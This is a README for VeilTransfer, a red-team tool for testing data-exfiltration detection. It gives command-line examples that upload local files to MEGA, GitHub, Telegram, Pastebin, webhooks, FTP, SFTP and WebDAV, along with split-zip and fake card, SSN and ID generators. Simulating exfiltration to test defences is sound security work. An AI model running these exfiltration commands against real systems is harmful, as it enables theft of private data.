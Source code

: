 # VeilTransfer

VeilTransfer is a data exfiltration utility designed to test and enhance the detection capabilities. This tool simulates real-world data exfiltration techniques used by advanced threat actors, allowing organizations to evaluate and improve their security posture. By leveraging multiple exfiltration methods such as MEGA, Github, SFTP, WebDAV, and more, VeilTransfer helps identify gaps in your defenses and ensures your security solutions are prepared to counter modern data breaches.

## Supported Exfiltration Methods

- MEGA 
- Github
- Telegram
- Pastebin
- WebDAV
- Webhook
- SFTP
- FTP

## Additional Features

### Fake Data Generation
VeilTransfer also supports generating fake data, including:

- **Indonesia Identity Card (KTP) Numbers:** Generate realistic KTP numbers and associated data.
- **Credit Card Information:** Create fake credit card details in PCI DSS format, including First Name, Last Name, CCN (Visa/MasterCard/AMEX), and Expiration Date.
- **Social Security Numbers (SSN):** Generate fake SSNs for use in simulations and testing environments.

### Zip Data Creation
Easily create zip files for bundling and compressing data, which can then be used for exfiltration or testing different scenarios.

## Example Use Cases
* Red Team Operations: Deploy VeilTransfer during red team exercises to challenge blue teams with sophisticated and realistic exfiltration scenarios.
* Purple Teaming: Collaborate with your defensive teams to simulate and then detect exfiltration attempts, refining both offensive and defensive tactics.
* Security Testing: Use VeilTransfer to validate the effectiveness of Data Loss Prevention (DLP) solutions, firewalls, and other network security measures.


## Example Usage

### Transfer

#### Transfer a File via SFTP
This example demonstrates how to securely transfer a file to a remote server using the SFTP protocol. The file is located on the local machine, and it's transferred to the specified remote directory using SSH authentication.
```
VeilTransfer transfer -method sftp -localPath (/path/to/file or /path/to/directory) -remoteDir /remote/path -server example.com:22 -username user -password pass
```

#### Transfer Files to a WebDAV Server
In this example, files from a local directory are uploaded to a WebDAV server. The server requires a username and password for authentication. The server parameter includes the URI scheme (https:// or http://).
```
VeilTransfer transfer -method webdav -localPath /path/to/directory -remoteDir /remote/path -server http://webdav.example.com:8080 -username user -password pass
```

#### Transfer Files to Mega Cloud
This example shows how to transfer files to Mega Cloud storage. The files are uploaded from a specified local directory, and the authentication is handled using the user's Mega Cloud credentials.
```
VeilTransfer transfer -method mega -localPath (/path/to/file or /path/to/directory) -username megauser@example.com -password megasecretpassword
```

#### Transfer Files via FTP
In this example, a file is uploaded to an FTP server. The file is transferred to a specific directory on the remote server. The server requires a username and password for authentication.
```
VeilTransfer transfer -method ftp -localPath (/path/to/file or /path/to/directory) -remoteDir remote/path -server ftp.example.com:21 -username ftpuser -password ftppassword
```

#### Upload a File to Pastebin
This example demonstrates how to upload the contents of a file to Pastebin. The content is posted to Pastebin using an API key provided by the user.
```
VeilTransfer transfer -method pastebin -localPath (/path/to/file or /path/to/directory) -apiKey your_pastebin_api_key
```

#### Send a File to a Github Repository
This example shows how to push a file from the local machine to a specific GitHub repository. The file is added to the repository using the user's GitHub API token for authentication.
```
VeilTransfer transfer -method github -localPath (/path/to/file or /path/to/directory) -repo yourusername/repository -apiKey your_github_api_token
```

#### Send a File to a Telegram Channel
This example demonstrates how to send a file to a specific Telegram channel. The file is sent using a Telegram bot API token, and the message is delivered to the specified channel ID.
```
VeilTransfer transfer -method telegram -localPath (/path/to/file or /path/to/directory) -telegramAPI your_telegram_bot_api_token -channelID 123456789
```

#### Send Data to a Webhook URL
In this example, the contents of a file are sent to a specified Webhook URL.
```
VeilTransfer transfer -method webhook -localPath (/path/to/file or /path/to/directory) -webhookURL https://webhook.site/your-webhook-url
```

### Create Zip Files

#### Create a Simple Zip File
This example shows how to create a zip file from a specified directory. The output is a single zip file containing all the files from the directory.
```
VeilTransfer create-zip -localPath /path/to/directory -outputPath /path/to/output.zip
```

#### Create a Split Zip File
This example demonstrates how to create a zip file that is split into multiple parts, with each part being no larger than the specified size. This is useful for transferring large files in smaller chunks.
```
VeilTransfer create-zip -localPath /path/to/directory -outputPath /path/to/output.zip -splitSize 1000000
```

### Data Generator 

#### Generate 100 Fake Credit Card Numbers
This example shows how to generate 100 entries of fake credit card data. The generated data will include credit card numbers, expiration dates, and associated details.
```
VeilTransfer generate-fake -ccn -count 100
```

#### Generate 50 Fake Indonesian KTP Entries
This example demonstrates how to generate 50 entries of fake KTP data, which are Indonesian identity cards. The data includes personal information such as name, address, and KTP number.
```
VeilTransfer generate-fake -ktp -count 50
```

#### Generate 200 Fake Social Security Numbers
This example shows how to generate 200 entries of fake SSN data. This is useful for applications requiring large datasets of U.S. Social Security Numbers.
```
VeilTransfer generate-fake -ssn -count 200
```

## Contributing
Contributions to VeilTransfer are welcome! If you have ideas for new features, exfiltration methods, or improvements, please submit a pull request or open an issue on GitHub.